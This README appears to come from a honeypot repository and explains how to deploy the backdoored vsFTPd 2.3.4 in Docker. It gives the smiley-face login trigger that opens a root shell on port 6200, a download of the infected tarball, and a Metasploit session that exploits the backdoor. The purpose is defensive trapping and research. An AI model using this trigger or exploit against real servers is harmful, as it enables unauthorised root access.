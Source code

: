 ### vsFTPd 2.3.4

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only. 

You should never expose this build in your actual network unless you take proper precautions.

This is a build for the original backdoored vsFTPd 2.3.4 software.

The way the exploit works is by sending any login string with a smiley face at the end such as:

```
USER nks:)
PASS noclue
```
This will break out a backdoor on port 6200 which you can then connect to and get access to the system.

The way it was backdoored was with rogue functions in 2 .C files and then re-uploaded to the original hosting website, until someone found it.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network. 

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network. 

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1.Follow the link and instructions on my Docker account:

https://hub.docker.com/r/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573/ 

https://store.docker.com/community/images/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573

Pull the image from here with:

```
docker pull nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573
```

If this is successfull, skip to step 5 and add the appropriate image name or better yet follow the instructions on the Link above.

If for some reason you can't pull and wan't do to it manually, follow the steps below.

2. Download all of the files from the repository, including the vulnerable application.

The way I do this that is most efficient is right clicking on the Download button for example at the .tar.gz app and clicking on Copy Link Location.

Then you can go to your server and download it via:

```
wget https://github.com/n-ks/Honey-Net/raw/master/FTP/vsFTPd%202.3.4/vsftpd-2.3.4-infected.tar.gz (Re-Do this yourself, the URL here might change)
```

3. Once you have all of your files in one location, extract the .tar.gz with:

```
tar xvf vsftpd-2.3.4-infected.tar.gz
```

4. Everything you need should be there, now can you build your Docker Image:

```
docker build -t vsftpd.2.3.4 .
```

Note that since it will install,update,upgrade stuff this can take a while. (Some errors are also normal, especially in the manual build)

5. After your image is successfully built, you can raise it with:

```
docker run -itd -p 21:21 -p 6200:6200 vsftpd.2.3.4
```

Note that if you do not want this application to be vulnerable and only want attackers to try and break in and not actually succeed you can remove -p 6200:6200. (The actual backdoor port) So basically the Docker will be exploited and will open a 6200 port but not to your host system.

6. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

7. Congratulations, you have a working vulnerable app.

___NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.___

___NOTE 2: The image used from Docker Hub is Debian based, so any logging solution that you can think of that will work with Debian will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.___

___NOTE 3: Make sure you limit your containers resources and security so it doesn't spread on your host in any way.___

Result:

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.3
RHOST => 192.168.1.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.3:21 - USER: 331 Please specify the password.
[+] 192.168.1.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.4:43985 -> 192.168.1.3:6200) at 2018-05-30 11:58:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
^C
Abort session 1? [y/N]  y

[*] 192.168.1.3 - Command shell session 1 closed.  Reason: User exit
msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

I've used one of the more general exploits to get in, with MSF, which was successfull.
